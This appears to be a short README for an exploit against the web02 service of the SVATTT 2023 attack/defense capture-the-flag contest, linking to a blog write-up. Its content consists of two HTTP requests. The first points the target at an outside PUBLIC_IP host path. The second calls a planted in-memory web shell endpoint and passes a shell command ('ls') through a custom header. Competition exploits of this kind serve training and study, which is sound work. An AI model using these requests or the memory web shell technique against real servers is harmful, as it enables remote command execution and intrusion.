


# SVATTT 2023 - Attack/Defense - web02
web02 exploit script

Request 1: `GET /http://PUBLIC_IP:8082/tiktikboom`



Request 2:
```
GET /http://PUBLIC_IP:8082/memshell
User-Agent: 123
cmd4f: ls
```




**Blog**: [https://devme4f.github.io/posts/2023/svattt-2023_new-waf-deser/](https://devme4f.github.io/posts/2023/svattt-2023_new-waf-deser/)
